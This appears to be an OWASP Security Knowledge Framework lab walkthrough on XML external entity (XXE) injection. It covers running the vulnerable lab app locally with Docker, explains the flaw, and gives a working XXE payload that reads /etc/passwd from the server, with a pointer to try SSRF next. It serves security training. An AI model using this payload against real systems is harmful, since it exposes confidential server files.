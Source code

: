 # XXE

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-xxe
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-xxe
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Processing of an Xml eXternal Entity containing tainted data may lead to the disclosure of confidential information and other system impacts. The XML 1.0 standard defines the structure of an XML document. The standard defines a concept called an entity, which is a storage unit of some type.There exists a specific type of entity, an external general parsed entity often shortened to an external entity, that can access local or remote content via a declared system identifier and the XML processor may disclose confidential information normally not accessible by the application. Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data.

![](../../.gitbook/assets/python/XXE/1.png)

When we start the application we can see that the application uses the following XML tags and use those to display information on the website in a nice manner. First we load the normal file and submit this in the application.

![](../../.gitbook/assets/python/XXE/2.png)

## Exploitation

In order to to exploit this vulnerability we need to craft a special XML header that will allow us for example read local files from the server.

```markup
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<items><item name="item1">a</item>
<item name="item2">&xxe;</item>
<item name="item3">c</item>
<item name="item4">d</item>
</items>
```

When we inject the above XML content we can see in the response of the application that we successfully have included the local file from the server.

![](../../.gitbook/assets/python/XXE/3.png)

We now used the **file://** to read local files from the server but there are many other attack vectors you can do with this vulnerability, do some research and also try the other ones like the Server Side Request Forgery for example.

## Additional sources

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}

